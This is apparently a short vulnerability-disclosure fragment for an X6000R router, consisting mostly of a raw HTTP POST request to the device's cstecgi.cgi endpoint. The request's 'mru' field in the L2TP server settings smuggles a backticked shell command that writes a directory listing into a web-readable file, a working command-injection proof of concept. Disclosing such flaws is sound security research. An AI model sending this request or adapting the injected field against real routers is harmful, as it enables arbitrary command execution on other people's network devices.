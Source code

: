 ![image-20241029115641138](./X6000R/images/image-20241029115641138.png)



### `mru`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"`ls >/web/poc_l2tp_mru.txt`","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
